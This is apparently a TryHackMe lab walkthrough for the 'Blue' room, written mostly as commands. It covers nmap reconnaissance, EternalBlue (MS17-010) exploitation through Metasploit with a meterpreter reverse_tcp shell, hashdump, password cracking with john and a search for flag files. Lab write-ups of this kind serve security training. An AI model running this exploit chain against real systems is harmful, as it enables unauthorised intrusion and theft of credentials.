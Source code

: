 # Blue

**Room Link:** [https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)

## **Walkthrough**

### **Recon**

`nmap -A 10.10.68.22`

``<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="original">``

The box is vulnerable to ms17-010

`nmap -p135,139,445,3389 --script=vuln 10.10.68.22`

<figure><img src="../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Gain Access / Escalate



`msfconsole`&#x20;

`search eternalblue`&#x20;

`use exploit/windows/smb/ms17_010_eternalblue`&#x20;

`set payload windows/x64/meterpreter/reverse_tcp`&#x20;

`set RHOSTS 10.10.68.22`&#x20;

`run`

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### Cracking

`hashdump`

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

`john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt`

<figure><img src="../../.gitbook/assets/image (3) (2).png" alt=""><figcaption></figcaption></figure>

### Flags

Just ran this to find the locations of all the flags then grabbed them

`cd C:\`

`dir "flag*" /s`

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

